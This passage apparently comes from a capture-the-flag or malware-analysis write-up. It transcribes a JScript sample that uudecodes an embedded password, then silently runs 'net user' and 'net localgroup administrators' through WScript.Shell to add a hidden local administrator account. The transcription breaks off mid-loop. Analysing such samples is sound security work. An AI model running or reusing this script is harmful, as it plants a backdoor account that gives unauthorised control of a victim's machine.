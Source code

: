![alt text](assets/image-82.png)

Here is the Javascript that is shown in the above image.

```javascript
function a(b) {
  var c = "",
    d = b.split("\n");
  for (var e = 0; e < d.length; e++) {
    var f = d[e].replace(/^\s+|\s+$/g, "");
    if (f.indexOf("begin") === 0 || f.indexOf("end") === 0 || f === "")
      continue;
    var g = (f.charCodeAt(0) - 32) & 63;
    for (var h = 1; h < f.length; h += 4) {
      if (h + 3 >= f.length) break;
      var i = (f.charCodeAt(h) - 32) & 63,
        j = (f.charCodeAt(h + 1) - 32) & 63,
        k = (f.charCodeAt(h + 2) - 32) & 63,
        l = (f.charCodeAt(h + 3) - 32) & 63;
      c += String.fromCharCode((i << 2) | (j >> 4));
      if (h + 2 < f.length - 1)
        c += String.fromCharCode(((j & 15) << 4) | (k >> 2));
      if (h + 3 < f.length - 1) c += String.fromCharCode(((k & 3) << 6) | l);
    }
  }
  return c.substring(0, g);
}
var m =
  "begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";
var n = a(m);
var o = [
  "net user LocalAdministrator " + n + " /add",
  "net localgroup administrators LocalAdministrator /add",
  "calc.exe",
];
var p = new ActiveXObject("WScript.Shell");
for (var q = 0; q < o.length - 1; q++) {
  p.Run(o[q], 0, false);
```